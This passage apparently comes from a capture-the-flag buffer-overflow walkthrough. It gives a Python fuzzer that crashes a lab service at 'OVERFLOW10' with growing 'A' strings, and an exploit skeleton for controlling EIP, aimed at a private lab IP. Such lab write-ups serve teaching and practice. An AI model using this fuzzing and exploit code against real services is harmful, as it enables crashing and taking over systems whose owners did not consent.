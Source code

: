 ```
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

This script sends progressively larger payloads of "A" characters to the OVERFLOW10 command until the application crashes.

Buffer overflows occur when more data is written to a buffer than it can handle. The application’s crash indicates that we have found the approximate size of the vulnerable buffer.

Now run the script to see when it will crash and we will find that it crashed at 600 bytes

![img-description](/assets/img/BOF_Fuzzing.png)
_Fuzzing_

### Crash Replication & Controlling EIP

Now create another file on your kali that we will use to exploit our application and put the following content in it:

```
import socket

ip = "10.10.112.53"
port = 1337

prefix = "OVERFLOW10 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload= ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
